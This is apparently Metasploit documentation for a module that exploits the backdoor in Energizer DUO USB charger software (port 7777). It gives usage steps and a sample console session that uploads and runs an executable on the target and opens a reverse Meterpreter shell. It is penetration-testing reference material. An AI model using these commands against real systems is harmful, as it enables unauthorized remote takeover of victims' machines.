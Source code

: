 ## Vulnerable Application

More information can be found on the [Rapid7 Blog](https://blog.rapid7.com/2010/03/08/locate-and-exploit-the-energizer-trojan).
Energizer's "DUO" USB Battery Charger included a backdoor which listens on port 7777.

The software can be downloaded from the [Wayback Machine](http://web.archive.org/web/20080722134654/www.energizer.com/usbcharger/language/english/download.aspx).

## Verification Steps

  1. Install the vulnerable software
  2. Start msfconsole
  3. Do: `use exploit/windows/backdoor/energizer_duo_payload`
  4. Do: `set rhost`
  5. Do: `set payload`
  6. Do: `exploit`

## Scenarios

  A run against the backdoor

  ```
    msf > use exploit/windows/backdoor/energizer_duo_payload
    msf exploit(energizer_duo_payload) > set RHOST 192.168.0.132
    msf exploit(energizer_duo_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
    msf exploit(energizer_duo_payload) > set LHOST 192.168.0.228
    msf exploit(energizer_duo_payload) > exploit
    
    [*] Started reverse handler on 192.168.0.228:4444
    [*] Trying to upload C:\NTL0ZTL4DhVL.exe...
    [*] Trying to execute C:\NTL0ZTL4DhVL.exe...
    [*] Sending stage (747008 bytes)
    [*] Meterpreter session 1 opened (192.168.0.228:4444 -> 192.168.0.132:1200)
    
    meterpreter > getuid
    Server username: XPDEV\Developer
  ```
